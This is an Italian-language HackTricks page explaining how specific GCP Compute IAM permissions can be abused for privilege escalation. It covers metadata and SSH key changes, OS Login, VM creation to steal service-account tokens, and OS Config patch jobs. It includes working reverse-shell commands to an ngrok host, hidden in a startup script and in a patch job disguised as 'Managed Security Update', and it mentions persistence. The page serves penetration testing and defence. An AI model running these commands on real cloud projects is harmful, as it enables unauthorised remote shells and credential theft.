 # GCP - Escalatione dei Privilegi del Compute

<details>

<summary><strong>Impara l'hacking su AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks su AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Compute

Per ulteriori informazioni su Compute e VPC (rete) in GCP controlla:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Nota che per eseguire tutti gli attacchi di escalation dei privilegi che richiedono di modificare i metadati dell'istanza (come aggiungere nuovi utenti e chiavi SSH) è **necessario avere le autorizzazioni `actAs` sull'account di servizio allegato all'istanza**, anche se l'account di servizio è già allegato!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con tale autorizzazione puoi **modificare** le informazioni dei **metadati** di un'**istanza** e cambiare le **chiavi autorizzate di un utente**, o **creare** un **nuovo utente con permessi sudo**. Pertanto, sarai in grado di eseguire l'accesso via SSH a qualsiasi istanza VM e rubare l'Account di Servizio GCP con cui l'istanza sta funzionando.\
Limitazioni:

* Nota che gli Account di Servizio GCP in esecuzione nelle istanze VM di default hanno un **ambito molto limitato**
* Avrai bisogno di essere **in grado di contattare il server SSH** per effettuare l'accesso

Per ulteriori informazioni su come sfruttare questa autorizzazione controlla:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Potresti anche eseguire questo attacco aggiungendo uno nuovo script di avvio e riavviando l'istanza:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Questa autorizzazione conferisce gli **stessi privilegi dell'autorizzazione precedente** ma su istanze specifiche invece che sull'intero progetto. Si applicano **gli stessi exploit e limitazioni della sezione precedente**.

### `compute.instances.setIamPolicy`

Questo tipo di autorizzazione ti permetterà di **concederti un ruolo con i permessi precedenti** e di ottenere privilegi abusandone.

### **`compute.instances.osLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [ISTANZA]`** e connetterti all'istanza. **Non avrai privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare il login con successo con questa autorizzazione all'interno dell'istanza VM, è necessario avere l'autorizzazione `iam.serviceAccounts.actAs` sull'account di servizio associato alla VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [ISTANZA]`** e connetterti all'istanza. Avrai i **privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare il login con successo con questa autorizzazione all'interno dell'istanza VM, è necessario avere l'autorizzazione `iam.serviceAccounts.actAs` sull'account di servizio associato alla VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

È possibile **creare una macchina virtuale con un Account di Servizio assegnato e rubare il token** dell'account di servizio accedendo ai metadati per ottenere privilegi su di esso.

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se hai le autorizzazioni **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puoi creare un [**lavoro o distribuzione di patch**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Questo ti permetterà di muoverti lateralmente nell'ambiente e ottenere l'esecuzione di codice su tutte le istanze di calcolo all'interno di un progetto.

Nota che al momento **non è necessaria l'autorizzazione `actAs`** sull'account di servizio associato all'istanza.

Se desideri sfruttare manualmente questo, dovrai creare un [**lavoro di patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **o** [**distribuzione**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Per eseguire un lavoro di patch:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Per effettuare un'implementazione di patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Lo strumento [patchy](https://github.com/rek7/patchy) poteva essere utilizzato in passato per sfruttare questa errata configurazione (ma ora non funziona).

**Un attaccante potrebbe anche abusarne per ottenere persistenza.**

### `compute.machineImages.setIamPolicy`

**Concediti permessi aggiuntivi** per le immagini di calcolo.

### `compute.snapshots.setIamPolicy`

**Concediti permessi aggiuntivi** per uno snapshot del disco.

### `compute.disks.setIamPolicy`

**Concediti permessi aggiuntivi** per un disco.

### Bypass delle Scopes di Accesso

Seguendo questo link trovi alcune [**idee per cercare di aggirare le scopes di accesso**](../).

### Escalation dei Privilegi Locali nell'istanza di calcolo GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
